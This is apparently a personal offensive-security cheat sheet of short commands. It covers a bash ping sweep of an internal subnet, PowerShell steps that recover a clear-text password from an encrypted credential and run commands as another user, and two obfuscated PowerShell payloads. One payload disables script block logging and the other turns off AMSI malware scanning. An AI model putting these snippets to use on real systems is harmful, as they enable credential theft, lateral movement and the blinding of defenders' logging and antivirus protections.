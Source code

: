 # ps
ps = ping sweep

just some note will add here
# 
```bash
for i in {1..255} ;do (ping -c 1 172.16.1.$i | grep "bytes from"|cut -d ' ' -f4|tr -d ':' &);done
```

#
convert encrypted powershell password into clear text:
```powershell
$pwd = ConvertTo-SecureString <encrypted text here>
$cred = New-Object System.Management.Automation.PSCredential -ArgumentList "User",$pwd
$cred.GetNetworkCredential()
```
to Execute Command in powershell as another user without runasCs :
```powershell
invoke-command -Computername localhost -Credential $cred -ScriptBlock { whoami }
```
note: you might find yourself in more restriction for using invoke-command rather than RunasCs 


```powershell
sbloggingbypass:
sET-ITEm  ("VaRIaBLe"+":"+"Fi90x"+"K") ([TYPE]("{3}{2}{0}{1}"-F'iOn.','aSSEmbLy','LECt','REF') )  ;  seT-ITEM VariAble:6Dj9k8  ([TYPE]("{0}{1}"-F'R','Ef')) ;    ( ChIldiTem  ("VARIAblE"+":"+"Fi90X"+"K")  ).valuE::"l`o`AdwIThPa`Rti`AlnamE"."I`NvO`ke"(('S'+("{1}{0}"-f'tem','ys')+'.C'+'ore'))."g`E`TTYPE"(('Sys'+("{1}{0}"-f'i','tem.D')+("{0}{1}" -f 'agn','o')+("{2}{0}{1}" -f'ics.Ev','ent','st')+'i'+("{0}{2}{1}" -f 'ng.Ev','ov','entPr')+'i'+'der'))."gET`FI`eLd"(('m'+'_'+("{1}{0}"-f'd','enable')),(("{1}{0}" -f 'nP','No')+'ubl'+'ic'+("{1}{0}{3}{2}"-f 'Inst',',','e','anc')))."seTVa`l`Ue"( (ChiLditeM  vAriAblE:6Dj9K8).vALuE."a`sSem`BlY"."gE`T`TyPE"(('Sys'+'tem'+("{0}{1}" -f '.','Mana')+'ge'+("{1}{0}{2}"-f 't.Au','men','t')+'o'+("{2}{0}{1}{3}" -f 'n.Tr','acin','matio','g.')+("{0}{2}{1}"-f 'PS','Lo','Etw')+'g'+'Pro'+'vi'+'der'))."gEtFIe`Ld"(('e'+'tw'+("{1}{0}" -f'vid','Pro')+'er'),('N'+'o'+'nPu'+'b'+("{2}{1}{0}" -f'c','tati','lic,S')))."gE`Tva`lUe"(${Nu`Ll}),0)

amsi:
.('sv')  ("{1}{0}" -f 'o','hq')  ( [Type]("{1}{0}"-F'EF','r')) ;${a} =  (  .('lS')  ("{2}{3}{0}{1}" -f'Le:Hq','O','v','aRiAb') )."vAl`Ue"."aS`SEmbLy".("{0}{2}{1}" -f 'GetT','s','ype').Invoke();ForEach(${B} in ${A}) {if (${B}."N`Ame" -like ("{1}{2}{0}" -f 'ils','*i','Ut')) {${c} = ${b}}};${d} = ${C}.("{0}{1}{2}"-f 'GetFiel','d','s').Invoke(("{2}{1}{3}{0}" -f'ic','onPublic,S','N','tat'));ForEach(${E} in ${D}) {if (${E}."Na`ME" -like ("{2}{1}{0}"-f'd','aile','*F')) {${F} = ${e}}};${F}.("{1}{2}{0}"-f'e','SetVal','u').Invoke(${Nu`LL},${T`RUE})
```
